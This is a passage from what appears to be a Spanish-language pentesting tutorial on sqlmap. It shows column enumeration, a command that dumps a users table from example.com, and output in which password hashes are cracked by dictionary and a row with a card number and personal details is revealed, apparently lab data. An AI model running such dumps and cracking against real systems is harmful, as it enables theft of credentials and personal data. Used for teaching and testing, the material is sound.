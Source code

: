 ```shell-session
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+
```

### Enumeración y descifrado de contraseñas

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                         
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                         
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                        
Database: master                                                                                                                                                                                          
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | name              | email                       | phone        | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| 1  | 5387278172507117 | Maynard Rice      | MaynardMRice@yahoo.com      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             | Linemen                                           |
```